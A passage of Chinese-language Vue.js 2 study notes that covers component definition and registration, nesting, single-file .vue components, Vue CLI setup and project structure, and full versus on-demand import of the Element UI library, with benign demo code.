					backgroundColor:'orange'
				},
				styleArr:[
					{
						fontSize: '40px',
						color:'blue',
					},
					{
						backgroundColor:'gray'
					}
				]
			},
			methods: {
				changeMood(){
					const arr = ['happy','sad','normal']
					const index = Math.floor(Math.random()*3)
					this.mood = arr[index]
				}
			},
		})
	</script>
	
</html>
```


# Vue组件化编程

## 非文件组件

### 基本使用

>Vue中使用组件的三大步骤：
>
>​          一、定义组件(创建组件)
>
>​          二、注册组件
>
>​          三、使用组件(写组件标签)
>
>
>
>​      一、如何定义一个组件？
>
>​            使用**Vue.extend(options)**创建，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
>
>​            区别如下：
>
>​                1.**el不要写**，为什么？
>
>​				答： **最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。**
>
>​                2.**data必须写成函数**，为什么？ 
>
> 				答： 避免组件被复用时，数据存在引用关系。
>
>​           	   备注：**使用template属性可以配置组件结构。**
>
>​		实例：
>
>```vue
>template:`
>                <h1>测试template</h1>
>`
>```
>
>将实例中template属性值进行编译，**并将编译后的dom替换掉vue实例绑定的元素**，如果该vue实例绑定的元素中存在内容，这些内容会**直接被覆盖**
>
>
>
>​      二、如何注册组件？
>
>​              **1.局部注册：靠new Vue的时候传入components选项**
>
>​              **2.全局注册：靠Vue.component('组件名',组件)**
>
>
>
>​      三、编写组件标签：
>
>​              <school></school>


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>基本使用</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<hello></hello>
			<hr>

			<h1>{{msg}}</h1>
			<hr>

			<!-- 第三步：编写组件标签 -->
			<school></school>
			<hr>
			<!-- 第三步：编写组件标签 -->
			<student></student>
		</div>

		<div id="root2">
			<hello></hello>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		

		//第一步：创建school组件
		const school = Vue.extend({
			template:`
				<div class="demo">
					<h2>学校名称：{{schoolName}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showName">点我提示学校名</button>	
				</div>
			`,
			// el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
			data(){
				return {
					schoolName:'尚硅谷',
					address:'北京昌平'
				}
			},
			methods: {
				showName(){
					alert(this.schoolName)
				}
			},
		})

		//第一步：创建student组件
		const student = Vue.extend({
			template:`
				<div>
					<h2>学生姓名：{{studentName}}</h2>
					<h2>学生年龄：{{age}}</h2>
				</div>
			`,
			data(){
				return {
					studentName:'张三',
					age:18
				}
			}
		})
		
		//第一步：创建hello组件
		const hello = Vue.extend({
			template:`
				<div>	
					<h2>你好啊！{{name}}</h2>
				</div>
			`,
			data(){
				return {
					name:'Tom'
				}
			}
		})
		
		//第二步：全局注册组件
		Vue.component('hello',hello)

		//创建vm
		new Vue({
			el:'#root',
			data:{
				msg:'你好啊！'
			},
			//第二步：注册组件（局部注册）
			components:{
				school,
				student
			}
		})

		new Vue({
			el:'#root2',
		})
	</script>
</html>
```


### 几个注意点

>关于组件名：
>
>​	可以使用name配置项指定组件在开发者工具中呈现的名字。
>
>一个简写方式：
>
>​     const school = Vue.extend(options) 可简写为：const school = options


### 组件的嵌套

```html
<!DOCTYPE html>
<html>

<head>
	<meta charset="UTF-8" />
	<title>组件的嵌套</title>
	<!-- 引入Vue -->
	<script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
	<!-- 准备好一个容器-->
	<div id="root">

	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

	//定义student组件
	const student = Vue.extend({
		name: 'student',
		template: `
				<div>
					<h2>学生姓名：{{name}}</h2>	
					<h2>学生年龄：{{age}}</h2>	
				</div>
			`,
		data() {
			return {
				name: '尚硅谷',
				age: 18
			}
		}
	})

	//定义school组件
	const school = Vue.extend({
		name: 'school',
		template: `
				<div>
					<h2>学校名称：{{name}}</h2>	
					<h2>学校地址：{{address}}</h2>	
					<student></student>
				</div>
			`,
		data() {
			return {
				name: '尚硅谷',
				address: '北京'
			}
		},
		//注册组件（局部）
		components: {
			student
		}
	})

	//定义hello组件
	const hello = Vue.extend({
		template: `<h1>{{msg}}</h1>`,
		data() {
			return {
				msg: '欢迎来到尚硅谷学习！'
			}
		}
	})

	//定义app组件
	const app = Vue.extend({
		template: `
				<div>	
					<hello></hello>
					<school></school>
				</div>
			`,
		components: {
			school,
			hello
		}
	})

	//创建vm
	new Vue({
		template: '<app></app>',
		el: '#root',
		//注册组件（局部）
		components: { app }
	})
</script>

</html>
```


## 单文件组件

>**一个.vue 文件的组成(3 个部分)**
>
>**模板页面**
>
>```vue
><template> 
>	页面模板 
></template>
>```
>
>**JS 模块对象**
>
>```js
><script> 
>    export default 
>	{ 
>		data() {
>        return {}
>        }, 
>     	methods: {
>            
>        }, 
>        computed: {
>            
>        }, 
>        components: {
>            
>        } 
>	}
></script>
>```
>
>**样式**
>
>```css
><style> 
>	样式定义 
></style>
>```


### 基本使用

*main.js*

```js
//引入vue
import App from './App.vue'

new Vue({
	el:'#root',
	template:`<App></App>`,
	components:{App},
})
```

*App.vue*

```vue
<!-- 汇总所有的组件 -->

<template>
	<div>
		<School></School>
		<Student></Student>
	</div>
</template>

<script>
	//引入组件
	import School from './School.vue'
	import Student from './Student.vue'

	export default {
		name:'App',
		components:{
			School,
			Student
		}
	}
</script>

```

*School.vue*

```vue
<template>
	<div class="demo">
		<h2>学校名称：{{name}}</h2>
		<h2>学校地址：{{address}}</h2>
		<button @click="showName">点我提示学校名</button>	
	</div>
</template>

<script>
	// const School=Vue.extend({
	// 	data(){

	// 	},
	// 	methods:{

	// 	}
	// })
	// export default School
	// export default Vue.extend({})然后Vue.extend可以默认省略

	 export default {
		name:'School',
		data(){
			return {
				name:'尚硅谷',
				address:'北京昌平'
			}
		},
		methods: {
			showName(){
				alert(this.name)
			}
		},
	}
</script>

<style>
	.demo{
		background-color: orange;
	}
</style>
```


*Student.vue*

```vue
<template>
	<div>
		<h2>学生姓名：{{name}}</h2>
		<h2>学生年龄：{{age}}</h2>
	</div>
</template>

<script>
	 export default {
		name:'Student',
		data(){
			return {
				name:'张三',
				age:18
			}
		}
	}
</script>

```


*index.html*

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>练习一下单文件组件的语法</title>
	</head>
	<body>
		<!-- 准备一个容器 -->
		<div id="root"></div>
		<!-- <script type="text/javascript" src="../js/vue.js"></script> -->
		<!-- <script type="text/javascript" src="./main.js"></script> -->
	</body>
</html>
```


# Vue脚手架

>Vue CLI（command line interface/命令行接口工具）
>
>Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）
>
>
>
>文档: https://cli.vuejs.org/zh/
>
>
>
>**“.vue文件”浏览器是不认得的**
>
>**对vue文件处理和加工成js文件，这里的处理工具就是Vue CLI（脚手架）**


## 安装

第一步（仅第一次执行）：全局安装@vue/cli。 

npm install -g @vue/cli 

（在命令行打Vue，会有命令提示出现）


第二步：**切换到你要创建项目的目录**，然后使用命令创建项目 

vue create xxxx 


第三步：启动项目 

npm run serve


备注：

1.如出现下载缓慢请配置 npm 淘宝镜像：npm config set registry 

https://registry.npm.taobao.org

2.Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置， 

请执行：vue inspect > output.js


## 模板项目的结构

>***├── node_modules*** 
>
>***├── public*** 
>
>​	**│ ├── favicon.ico: 页签图标** 
>
>​	**│ └──** **index.html: 主页面** 
>
>***├── src*** 
>
>​	**│ ├── assets: 存放静态资源** 
>
>​		**│ │ └── logo.png** 
>
>​	**│ │──** **component: 存放组件** 
>
>​		**│ │ └── HelloWorld.vue** 
>
>​	**│ │──** **App.vue: 汇总所有组件** 
>
>​	**│ │──** **main.js: 入口文件** 
>
>***├── .gitignore: git 版本管制忽略的配置*** 
>
>***├── babel.config.js: babel 的配置文件*** 
>
>***├── package.json: 应用包配置文件*** 
>
>***├── README.md: 应用描述文件*** 
>
>***├── package-lock.json：包版本控制文件***


# Element-ui

**移动端常用 UI 组件库** 

1. Vant https://youzan.github.io/vant 

2. Cube UI https://didi.github.io/cube-ui 

3. Mint UI http://mint-ui.github.io 

**PC 端常用 UI 组件库** 

1. Element UI https://element.eleme.cn 

2. IView UI https://www.iviewui.com


你可以引入整个 Element，或是根据需要仅引入部分组件。我们先介绍如何引入完整的 Element。

## 全局引入

**步骤**

main.js引入element

>```js
>import Vue from 'vue'
>import App from './App.vue'
>// 引入element-ui
>import ElementUI from 'element-ui';
>// 映入element-ui全部样式
>import 'element-ui/lib/theme-chalk/index.css';
>
>Vue.config.productionTip = false
>Vue.use(ElementUI);
>new Vue({
>  el:"#app",
>  render: h => h(App),
>})
>```

然后按需引入你想加入的样式到组件（这里是引入到App.vue中）

```vue
<template>
  <div>
    
    <School></School>
    <Student></Student>
    <input type="button" value="请点我" />
    <input type="text" placeholder="请输入" />
    
    <el-row>
      <el-button>默认按钮</el-button>
      <el-button type="primary">主要按钮</el-button>
      <el-button type="success">成功按钮</el-button>
      <el-button type="info">信息按钮</el-button>
      <el-button type="warning">警告按钮</el-button>
      <el-button type="danger">危险按钮</el-button>
    </el-row>
    <div class="block">
      <span class="demonstration">默认</span>
      <el-date-picker v-model="value1" type="date" placeholder="选择日期">
      </el-date-picker>
    </div>
    <el-row>
      <el-button icon="el-icon-search" circle></el-button>
      <el-button type="primary" icon="el-icon-edit" circle></el-button>
      <el-button type="success" icon="el-icon-check" circle></el-button>
      <el-button type="info" icon="el-icon-message" circle></el-button>
      <el-button type="warning" icon="el-icon-star-off" circle></el-button>
      <el-button type="danger" icon="el-icon-share" circle></el-button>
    </el-row>
  </div>

</template>

<script>
//引入组件
import School from "./components/School";
import Student from "./components/Student";

export default {
  name: "App",
  components: {
    School,
    Student,
  },
  data() {
    return {
      pickerOptions: {
        disabledDate(time) {
          return time.getTime() > Date.now();
        },
        shortcuts: [{
          text: '今天',
          onClick(picker) {
            picker.$emit('pick', new Date());
          }
        }, {
          text: '昨天',
          onClick(picker) {
            const date = new Date();
            date.setTime(date.getTime() - 3600 * 1000 * 24);
            picker.$emit('pick', date);
          }
        }, {
          text: '一周前',
          onClick(picker) {
            const date = new Date();
            date.setTime(date.getTime() - 3600 * 1000 * 24 * 7);
            picker.$emit('pick', date);
          }
        }]
      },
      value1: '',
      value2: '',
    };
  }
};
</script>

```


## 局部引入

**步骤**

借助 [babel-plugin-component](https://github.com/QingWei-Li/babel-plugin-component)，我们可以只引入需要的组件，以达到减小项目体积的目的。

首先，安装 babel-plugin-component：

```
npm install babel-plugin-component -D
```

然后，将 .babelrc 修改为：

官网有点小bug，版本问题

```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
		["@babel/preset-env", { "modules": false }],
  ],
	plugins:[
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ]
}

```


>接下来，如果你只希望引入部分组件，比如 Button 和 Select，那么需要在 main.js 中写入以下内容：
>
>```js
>import Vue from 'vue'
>import App from './App.vue'
>// // 引入element-ui
>// import ElementUI from 'element-ui';
>// // 映入element-ui全部样式
>// import 'element-ui/lib/theme-chalk/index.css';
>import {Button,Row,DatePicker,Select} from 'element-ui';
>Vue.use(Button);
>Vue.use(Row);
>Vue.use(DatePicker);
>Vue.use(Select);
>
>Vue.config.productionTip = false
>// Vue.use(ElementUI);
>new Vue({
>  el:"#app",
>  render: h => h(App),
>})
>
>```
>
>


引入到App.vue中

```vue
<template>
  <div>
    
    <School></School>
    <Student></Student>
    <input type="button" value="请点我" />
    <input type="text" placeholder="请输入" />
    
    <el-row>
      <el-button>默认按钮</el-button>
      <el-button type="primary">主要按钮</el-button>
      <el-button type="success">成功按钮</el-button>
      <el-button type="info">信息按钮</el-button>
      <el-button type="warning">警告按钮</el-button>
      <el-button type="danger">危险按钮</el-button>
    </el-row>
    <div class="block">
      <span class="demonstration">默认</span>
      <el-date-picker v-model="value1" type="date" placeholder="选择日期">
      </el-date-picker>
    </div>
    <el-row>
      <el-button icon="el-icon-search" circle></el-button>
      <el-button type="primary" icon="el-icon-edit" circle></el-button>
      <el-button type="success" icon="el-icon-check" circle></el-button>
      <el-button type="info" icon="el-icon-message" circle></el-button>
      <el-button type="warning" icon="el-icon-star-off" circle></el-button>
      <el-button type="danger" icon="el-icon-share" circle></el-button>
    </el-row>
  </div>

</template>

<script>
//引入组件
import School from "./components/School";
import Student from "./components/Student";

export default {
  name: "App",
  components: {
    School,
    Student,
  },
  data() {
    return {
      pickerOptions: {
        disabledDate(time) {
          return time.getTime() > Date.now();
        },
        shortcuts: [{
          text: '今天',
          onClick(picker) {
            picker.$emit('pick', new Date());
          }
        }, {
          text: '昨天',
          onClick(picker) {
            const date = new Date();
            date.setTime(date.getTime() - 3600 * 1000 * 24);
            picker.$emit('pick', date);
          }
        }, {
          text: '一周前',
          onClick(picker) {
            const date = new Date();
            date.setTime(date.getTime() - 3600 * 1000 * 24 * 7);
            picker.$emit('pick', date);
          }
        }]
      },
      value1: '',
      value2: '',
    };
  }
};
</script>

```

